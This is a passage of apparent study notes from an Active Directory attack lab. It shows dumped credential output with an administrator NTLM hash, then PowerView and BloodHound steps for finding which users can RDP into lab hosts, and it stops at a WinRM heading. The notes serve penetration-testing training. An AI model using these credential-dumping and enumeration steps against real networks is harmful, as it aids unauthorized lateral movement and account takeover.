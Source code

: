 ```powershell
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d
```

## **Stacking The Deck**

## **Privileged Access**

#### **Enumerating the Remote Desktop Users Group**

* `PS C:\htb> Import-Module .\PowerView.ps1`
* `PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"`

In bloodhound, for a specific user (whose foothold we have) check for what type of remote access rights they have either directly or inherited via group membership under `Execution Rights` on the `Node Info` tab.

![Untitled](<.gitbook/assets/ACTIVE DIRECTORY Enum & Attacks 4af4b148af5740d1a6a92a3c741df505/Untitled 10.png>)

We can see wley is member of domain user and can rdp into academy…

### **WinRM**
